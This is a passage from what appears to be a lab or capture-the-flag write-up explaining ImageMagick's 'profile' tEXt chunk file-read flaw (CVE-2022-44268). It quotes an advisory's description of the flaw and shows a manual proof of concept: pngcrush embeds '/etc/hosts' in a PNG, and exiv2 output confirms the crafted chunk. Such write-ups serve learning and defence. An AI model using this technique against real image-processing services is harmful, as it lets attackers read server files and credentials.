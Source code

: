 The issue is in how the text string "profile" is handled by ImageMagick.
[This post from
metabaseq](https://www.metabaseq.com/imagemagick-zero-days/) does a
really nice job with details, and offers this high level description:

> A malicious actor could craft a PNG or use an existing one and add a
> textual chunk type (e.g., tEXt). These types have a keyword and a text
> string. If the keyword is the string "profile" (without quotes) then
> ImageMagick will interpret the text string as a filename and will load
> the content as a raw profile. If the specified filename is "-" (a
> single dash) ImageMagick will try to read the content from standard
> input potentially leaving the process waiting forever.

In ImageMagick, a profile refers to a set of color management settings
that define how colors are represented and handled in an image. Color
management is important because different devices (such as cameras,
monitors, and printers) may interpret and reproduce colors differently.
Profiles help ensure consistent and accurate color representation across
various devices.

### POC Exploit

#### Manual

There are many POC scripts out there, but I prefer to do it manually
[This Github
page](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
has steps for doing so. I'll start with a generic PNG, and use
`pngcrush` to add the profile string:



    oxdf@hacky$ pngcrush -text a "profile" "/etc/hosts" poc.png
      Recompressing IDAT chunks in poc.png to pngout.png
       Total length of data found in critical chunks            =     21089
       Best pngcrush method        =   6 (ws 15 fm 6 zl 9 zs 0) =     20070
    CPU time decode 0.004922, encode 0.052924, other 0.001132, total 0.059650 sec



This creates a new file, `pngout.png`, which has the metadata in the
`tEXt` section:



    oxdf@hacky$ exiv2 -pS pngout.png 
    STRUCTURE OF PNG FILE: pngout.png
     address | chunk |  length | data                           | checksum
           8 | IHDR  |      13 | .......z....                   | 0x727a55a2
          33 | gAMA  |       4 | ....                           | 0x0bfc6105
          49 | cHRM  |      32 | ..z&..............u0...`..:..  | 0x9cba513c
          93 | bKGD  |       6 | ......                         | 0xa0bda793
         111 | tIME  |       7 | .......                        | 0x9208ee1c
         130 | IDAT  |   20013 | x.....%.U.Z.N..n..&j...A3....a | 0x73423cfd
       20155 | tEXt  |      37 | date:create.2023-05-15T20:26:1 | 0x2850565c
       20204 | tEXt  |      37 | date:modify.2023-05-15T20:26:1 | 0x590deee0
       20253 | tEXt  |      18 | profile./etc/hosts             | 0xc560a843
       20283 | IEND  |       0 |                                | 0xae426082
